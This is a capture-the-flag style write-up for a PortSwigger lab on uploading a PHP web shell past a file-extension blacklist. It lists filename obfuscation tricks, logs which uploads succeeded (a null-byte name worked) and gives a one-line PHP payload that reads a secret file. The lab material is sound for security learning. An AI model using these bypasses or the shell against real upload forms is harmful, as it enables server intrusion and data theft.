





# Web shell upload via obfuscated file extension
# Objective
This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`
# Solution
## Analysis
### Upload request example
||
|:--:| 
| *Normal upload request* |
||
| *Path to uploaded file* |

Above file upload request and response reveal information about server:
```
Server: Apache/2.4.41 (Ubuntu)
```
### PHP payload upload test
File extension `.php` is not in the whitelist.
||
|:--:| 
| *PHP files are not allowed* |

## Exploitation
### Obfuscating file extension
File extension obfuscation techniques (source [PortSwiggger](https://portswigger.net/web-security/file-upload#exploiting-flawed-validation-of-file-uploads)):
- Multiple extensions - example: `exploit.php.jpg`
- Add trailing characters - example: `exploit.php.`
- URL encoding (or double URL encoding) for dot, slashes - example: `exploit%2Ephp`
- Add semicolons before the file extension - example: `exploit.asp;.jpg`
- Add URL-encoded null byte character before the file extension - example: `exploit.asp%00.jpg`
- Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path. 
- Bypass striping filters - example (strip `.php`): `exploit.p.phphp`

Tests:
```
Payload file name: exploit.php.jpg
File was uploaded successfuly but connot be triggered

Payload file name: .htaccess
File was not uploaded successfuly

Payload file name: exploit.php.
File was not uploaded successfuly

Payload file name: exploit%2Ephp
File was not uploaded successfuly

Payload file name: exploit.p.phphp
File was not uploaded successfuly

Payload file name: exploit.php%00.jpg
File was uploaded successfuly

```

||
|:--:| 
| *Successful PHP payload upload* |
||
| *Triggering uploaded PHP file* |

Payload:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```